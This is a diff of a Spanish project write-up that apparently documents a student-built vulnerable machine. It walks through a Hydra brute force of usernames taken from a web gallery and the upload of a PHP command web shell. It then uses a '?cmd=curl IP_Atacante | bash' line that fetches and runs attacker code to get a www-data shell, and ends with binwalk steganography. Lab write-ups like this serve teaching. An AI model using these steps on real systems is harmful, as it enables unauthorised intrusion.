

Before and after one commit to azraelp/Proyecto-Final, a Markdown page: EntregaFinal/Documentación Final.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/EntregaFinal/Documentación Final.md
+++ b/EntregaFinal/Documentación Final.md
@@ -190,9 +190,12 @@ Para empezar tenemos una web inspirada en la serie The Originals. Hemos implemen
 
 En ftp hemos dejado activo el usuario anonymous, este no puede hacer nada, unicamente get.
 
+En la web podemos obserbar una galeria con diferentes personajes, donde el atacante puede hacer una lista y probar de hacer un hydra con cada unos de estos personajes, hasta acertar con el usuario.
+
+![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/0ce0aa3a-6ba9-45a4-988c-ba699a50ad58)
 
 
-El atacante debera hacer un hydra en este usuario para sacar la contraseña, este usuario no tiene nada dentro, pero si tiene permisos diferentes como el de subir un fichero.
+Este usuario no tiene nada dentro, pero si tiene permisos diferentes como el de subir un fichero.
 
 Tendra que subir un archivo php para ejecutar comandos desde la web.
 
@@ -199,7 +205,10 @@ Tendra que subir un archivo php para ejecutar comandos desde la web.
 La maquina atacante tendra lo siguiente:
 
-- Un archivo html con codigo bash dento.
+- Un archivo html con codigo bash dento, y en la misma ruta del archivo abrir .
 - Un terminal abierto para ponernos en escucha en http.
 
 Una vez tenemos esto en la maquina atacante, desde la web ponemos la ruta del archivo que hemos subido con el codigo php para hacer comandos, y añadimos ?cmd=curl IP_Atacante | bash.
-Y en el terminal podemos observar que nos hemos registrado como www-data.
+Y en el terminal atacante podemos observar que nos hemos registrado como www-data.
+
+Dentro de este usuario encontramos que no podemos acceder a ningun archivo con privilegios, pero obserbamos que hay un usuario llamado Caroline.
+Y en el directorio /etc encontramos una imaghen de carolina la cual si la descargamos a la maquina local y le hacemos un binwalk vemos que tiene un zip dentro.
```
Also changed, not shown: other parts of EntregaFinal/Documentación Final.md (+3 -0 lines).
